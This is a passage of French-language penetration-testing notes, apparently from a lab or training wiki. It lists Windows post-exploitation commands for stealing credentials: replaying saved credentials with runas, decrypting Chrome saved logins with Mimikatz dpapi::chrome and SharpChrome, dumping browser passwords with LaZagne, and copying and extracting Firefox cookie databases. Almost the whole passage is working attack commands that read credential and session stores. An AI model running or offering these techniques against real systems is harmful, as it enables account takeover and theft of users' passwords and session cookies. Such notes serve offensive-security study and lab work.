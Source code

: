 rejouer les creds avec runas

```powershell
runas /savecred /user:inlanefreight\bob "COMMAND HERE"
```

### Browser Credentials

#### Mimikatz

> [!warning]
> Nécessite d'avoir une session active avec le compte cible dans le cas d'un compte de domaine. (Peut ne pas fonctionner avec une session Winrm, privilégier RDP)

Récupérer StateKey du user dans un premier temps.

```powershell
(gc "$env:LOCALAPPDATA\Google\Chrome\User Data\Local State" | ConvertFrom-Json).os_crypt.encrypted_key
```

Déchiffrer avec encrypted StateKey depuis Mimikatz

```
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /encryptedkey:RFBBUEkBAAAA0Iyd3wEV0RGMegDAT8KX6wEAAAAncJwnVImWR7bUoLLRfa9/EAAAABwAAABHAG8AbwBnAGwAZQAgAEMAaAByAG8AbQBlAAAAA2YAAMAAAAAQAAAAsR/KfZ2j7nGaBsSBrtx5igAAAAAEgAAAoAAAABAAAACdgmiYa1tun6mnpvJ2Pkv4KAAAAP7DCG+OdN2pHpNz/0VeH3yz0yfxLTHqZPb6FO3VobecG5Xocf/FrcsUAAAAbGTwlT4u7y2DRvLV8fBtxcQT9Es= /unprotect
```

#### SharpChrome

https://github.com/GhostPack/SharpDPAPI

```powershell
.\SharpChrome.exe logins /unprotect
```

#### Lazagne

```cmd
lazagne.exe browsers
```



## Firefox Cookies

https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/cookieextractor.py

Copier la basee de données qui stocke les cookies

```powershell
copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
```

Extraire les cookies

```shell
python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite"
```
